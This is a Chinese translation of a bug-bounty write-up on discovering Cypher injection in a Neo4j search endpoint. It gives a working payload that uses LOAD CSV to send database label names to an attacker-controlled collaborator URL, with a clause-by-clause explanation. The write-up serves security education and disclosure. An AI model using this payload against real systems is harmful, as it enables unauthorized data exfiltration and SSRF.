


# 有史以来最被低估的注射剂——赛佛注射剂。识别和开发！

> 原文：<https://infosecwriteups.com/the-most-underrated-injection-of-all-time-cypher-injection-fa2018ba0de8?source=collection_archive---------0----------------------->

表情包

> **背景**

Cypher 是 Neo4j 的图形查询语言，允许您从图形中检索数据。它就像是图形的 SQL，并且受到 SQL 的启发。

Neo4j 是一个图形数据库管理系统，它使用 cypher 作为其主要语言从图形中查询数据，就像 mySQL(这是一个关系数据库管理系统)使用 SQL 作为其主要语言从表中查询数据一样。

[这里有更多关于 cypher & neo4j 的信息](https://neo4j.com/developer/cypher/) …

> **查找 bug**

我黑进了 HackerOne 上的一个私人程序。到那时，我已经在那里发现了一些高严重性的错误。该计划在范围内有两个 pentest 租户，并为每个租户提供了凭据。每个租户都有几个组织，并且凭证允许访问一些组织。每个租户都有一个很少使用的搜索功能(搜索其下的组织)。我去了 burp suite，看到了搜索功能生成的请求。我习惯在搜索词的末尾附加一个单引号( ' )，没有任何期望。但令我惊讶的是，服务器返回了一个错误—

(不是完全的错误，但它是这样开始的，我发现这个错误时，我对错误奖金非常陌生，从未考虑过保留任何错误的截图)这是我第一次看到这样的错误，我复制了开始的部分，并在谷歌上搜索。从那里我了解了 neo4j 数据库和什么是密码。Cypher 非常像 sql，因此我在 google 上搜索的下一个东西是“cypher injection”(因为基于 sql 的注入被称为 sql injection)。关于这个 bug 的文章很少，明智的做法是几乎没有 2-3 篇文章。我把它们都读了一遍，并有了一个如何利用它们的想法。我花了两天时间为易受攻击的目标开发有效载荷。我在谷歌上得到的信息肯定有基本的有效载荷，但这些没有直接工作。我不得不关闭一些引号、不完整的条件、方括号并最终部分完成现有查询(以便整体查询正常工作)以最终爆发并使其具有恶意。这是我得出的最后一个有效载荷

`.*' | o ] AS filteredOrganisations CALL db.labels() YIELD label LOAD CSV FROM 'http://<collaborator-url-here>/' + label AS r //`

> **有效载荷的说明**

`.*' | o ] AS filteredOrganisations`

这整个部分是为了部分关闭当前查询。上面的部分部分关闭了当前查询，并帮助向原始查询添加了新的子句。

`CALL db.labels() YIELD label`

CALL 子句用于计算子查询，这里子查询调用 db.labels()，这是一个内置过程，它返回数据库中使用的所有标签的列表。YIELD 子句将返回的列表存储在变量“label”中。

`LOAD CSV FROM 'http://<collaborator-url-here>/' + label AS r //`

LOAD CSV 是一个子句，用于通过 from 关键字从用户定义的位置加载 CSV 文件。这里，LOAD CSV 向我们的 burp collaborator 客户端发出请求，一次附加一个列表元素“label”。结果，多个请求被发送到我的 burp collaborator 客户端，并且所有请求都在请求的端点上附加了不同的标签名称。使用结尾部分“AS r”只是因为没有它，查询会不断中断，它所做的只是将 csv 文件作为“r”加载，最后两个正斜杠“//”用于注释掉同一行中查询的其余部分。

所有这些部分结合起来形成了有效载荷，帮助我创建了一个基本的概念验证

> **剥削**

总的剥削看起来是这样的—

原始剥削

对不起，伙计们的水印，它仍然是可见的。我只是想分享整个原始剥削概念。我不编辑视频，因此不想购买他们的订阅，但隐藏域名很重要，所以无论如何都要编辑它。

> **结论**

当我创建了上面的 poc 后，我非常兴奋，因为这将是我的第一个涉及到注射和 ssrf 的关键 bug。我很快报告了这个错误。第二天，我试图利用它，但由于某种原因，我的基本检测有效载荷根本不工作。很快我意识到这个问题已经解决了。根本没有通知我。当时令人沮丧，但几个小时后，团队成员承认了这个错误，并以他们提供的最高奖金奖励了我。

慷慨

> **外卖**

现在不会用常识来烦你了。它只是做研究，谷歌的东西和使用常识。以我为例，在我了解到 cypher 是一种类似于 sql 的语言(或者说是受 sql 启发)之后，搜索“cypher injection”纯粹是常识。

阅读文档。老实说，我读了很多关于 cypher 和 neo4j 的东西，然后能够提出有效载荷。有效负载非常简单，我使用的方法已经可以在互联网上获得，但要应用有效负载，我首先必须知道密码查询是如何工作的，并正确地分析易受攻击的目标。

> **简单介绍一下自己**

老实说，到目前为止这是我找到的唯一的关键。我确实经常发现严重程度高的错误，但是严重错误有不同的情况。有很多次，我认为我找到了一个关键，甚至设法让我的报告被归类为关键(在少数情况下)，但最终由于一些复杂性，它总是归结为高或中。我会说，不要急于求成，有时高和中等一起可以让你赚一些钱。明年我一定会努力工作，找到一些令人惊奇的 bug，希望能找到一些关键的 bug(至少几个)。我已经认真地开始寻找 bug 一年了，就我所拥有的金钱、独立和时间而言，这是一段不可思议的旅程。我不是专业人士，这只是我想分享的一个很酷的发现: )

如果你已经读到这里，那么谢谢你。我希望这是值得的，你学到了新的东西。

在 linkedin 上关注我—[https://www.linkedin.com/in/marvelmaniac/](https://www.linkedin.com/in/marvelmaniac/)

在推特上关注我——https://twitter.com/maniacmarvel_

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！